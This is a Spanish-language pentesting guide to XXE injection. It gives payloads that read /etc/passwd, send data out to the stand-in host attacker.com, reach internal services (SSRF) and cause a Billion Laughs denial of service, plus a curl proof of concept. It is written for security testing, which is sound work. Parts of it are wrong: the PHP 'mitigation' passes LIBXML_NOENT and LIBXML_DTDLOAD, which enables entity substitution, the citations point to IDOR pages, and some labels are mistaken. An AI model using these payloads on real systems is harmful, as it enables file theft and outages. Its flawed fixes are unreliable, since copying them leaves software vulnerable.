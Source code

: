 # XML External Entity (XXE) 

## Resumen

XXE es una vulnerabilidad que permite a un atacante incluir entidades externas en documentos XML procesados por el servidor, provocando la lectura de archivos locales, escaneo de redes internas y, en escenarios avanzados, ejecución remota de código o Denegación de Servicio. Afecta a cualquier aplicación que parsea XML sin deshabilitar la resolución de entidades externas o DTD.[^2]

## Contexto

Motores y librerías vulnerables:

- **Java:** `DocumentBuilderFactory`, `SAXParserFactory` si `external-general-entities` y `external-parameter-entities` están habilitados.
- **.NET:** `XmlDocument`, `XmlTextReader` con `XmlResolver` por defecto.
- **PHP:** `simplexml_load_string`, `DOMDocument` sin desactivar `LIBXML_NOENT`.
- **Python:** `xml.etree.ElementTree`, `lxml` con resolución de entidades habilitada.

Los flujos comunes incluyen parsing de: cargas de configuración, mensajes SOAP, SAML, feeds RSS, XML en POST, SOAP APIs, GData, SVG.

## Metodología de Ataque

### 1. Identificación de Puntos de Inyección

- Endpoints que aceptan XML en body (`Content-Type: application/xml` o `text/xml`).
- Campos de SOAP (`<soapenv:Body>`).
- Importación de configuración vía XML.
- Parsers de SAML (`AuthnRequest`).

### 2. Pruebas Manuales Básicas

#### 2.1 External Entity Disclosure (OOB)

```xml
<?xml version="1.0"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<doc>&xxe;</doc>
```

- Si responde con contenido de `/etc/passwd`, hay XXE.

#### 2.2 Blind XXE (OOB)

```xml
<?xml version="1.0"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "http://attacker.com/steal">
]>
<doc>&xxe;</doc>
```

- El atacante monitorea su servidor HTTP para recibir la petición.

### 3. Explotación Avanzada

#### 3.1 SSRF interno

```xml
<!ENTITY xxe SYSTEM "http://127.0.0.1:8080/admin">
```

#### 3.2 Out-of-band File Read

```xml
<!ENTITY xxe SYSTEM "ftp://attacker.com/steal?data=file contents">
```

#### 3.3 Denial of Service – Billion Laughs

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [  
 <!ENTITY lol "lol">  
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">  
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">  
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">  
]>
<lolz>&lol3;</lolz>
```

## Pruebas Manuales

1. **Enviar XML malicioso** con entidad externa.
2. **Observar respuesta** con contenido local o error indicando lectura.
3. **Verificar OOB** monitoreando servidor atacante.
4. **Probar B Billion Laughs** para evaluar DoS.

## PoC

```bash
curl -X POST https://victima.com/api/xml \
  -H "Content-Type: application/xml" \
  --data-binary @xxe.xml
```

Contenido de `xxe.xml` como en 2.1.

## Automatización

- **XXEInjector (Burp extension)** para generar vectores OOB y DoS.
- **XXE-Scanner (CLI)** detecta y explota XXE automáticamente.
- **XXESpy** para monitoreo de callbacks HTTP/FTP.

## Explotación / Impacto

- **Lectura de archivos sensibles** (`/etc/passwd`, claves privadas).
- **Escaneo interno** de servicios no expuestos.
- **Robo de tokens** (config de AWS metadata).
- **Denegación de Servicio** por expansión de entidades.
- **RCE** en casos de parser con extensiones dinámicas.

## Detección

```bash
grep -R "<!ENTITY" /path/to/code  
grep -R "DocumentBuilderFactory" -n .
```

Monitor de logs de errores XML que incluyan trazas de DTD.

## Mitigaciones

1. **Deshabilitar DTD y entidades externas**:
   - Java:

```java
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

- PHP:

```php
libxml_disable_entity_loader(true);
$doc = new DOMDocument();
$doc->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
```

- Python lxml:

```python
parser = etree.XMLParser(resolve_entities=False, no_network=True)
etree.fromstring(xml, parser)
```

2. **Validación de input**: rechazar DTDs (`<!DOCTYPE`).
3. **Uso de formatos alternativos**: JSON cuando sea posible.
4. **Principio de menor privilegio**: parsers sin permisos de red o sistema.

## Reporte

**Título:** XML External Entity Injection – Exposición de Recursos Internos
**Resumen Ejecutivo:** El endpoint `/api/xml` procesa DTD con entidades externas, permitiendo lectura de `/etc/passwd` y SSRF.
**Pasos de Reproducción:**

1. Enviar XML con `<!ENTITY xxe SYSTEM "file:///etc/passwd">`.
2. Confirmar respuesta con contenido de passwd.
3. Probar entidad OOB y verificar callback.
   **Mitigación Recomendada:** Deshabilitar DTD y resolución de entidades externas, validar input XML y usar JSON.

## Fuentes

OWASP – XXE Prevention Cheat Sheet[^1]
PortSwigger – Web Security Academy XXE Labs[^2]
WSTG – Testing for XML Injection[^3]
CWE-611 – Improper Restriction of XML External Entity Reference[^4]

<div style="text-align: center">⁂</div>

[^1]: https://portswigger.net/web-security/access-control/idor
    
[^2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References
    
[^3]: https://spyboy.blog/2024/09/19/idor-vulnerabilities-finding-exploiting-and-securing/
    
[^4]: https://bigid.com/blog/idor-vulnerability/
